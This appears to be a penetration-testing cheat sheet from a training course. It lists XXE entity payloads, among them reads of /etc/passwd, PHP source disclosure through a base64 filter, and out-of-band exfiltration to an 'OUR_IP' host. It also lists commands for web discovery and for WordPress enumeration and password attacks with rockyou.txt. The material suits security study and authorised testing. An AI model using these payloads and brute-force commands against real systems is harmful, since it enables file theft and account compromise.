 | Command | Description |
|---------|-------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |

# Attacking Common Applications

| Command | Description |
|---------|-------------|
| `sudo vim /etc/hosts` | Opens the /etc/hosts with vim to start adding hostnames |
| `sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list` | Runs an nmap scan using common web application ports based on a scope list (scope_list) and outputs to a file (web_discovery) in all formats (-oA) |
| `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>` | Runs eyewitness using a file generated by an nmap scan (web_discovery.xml) and creates a directory (-d) |
| `cat web_discovery.xml | ./aquatone -nmap` | Concatenates the contents of nmap scan output (web_discovery.xml) and pipes it to aquatone (./aquatone) while ensuring aquatone recognizes the file as nmap scan output (-nmap) |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate` | Runs wpscan using the --enumerate flag. Can replace the URL with any valid and reachable URL in each challenge |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>` | Runs wpscan and uses it to perform a password attack (--password-attack) against the specified URL and references a wordlist (/usr/share/wordlists/rockyou.txt) |
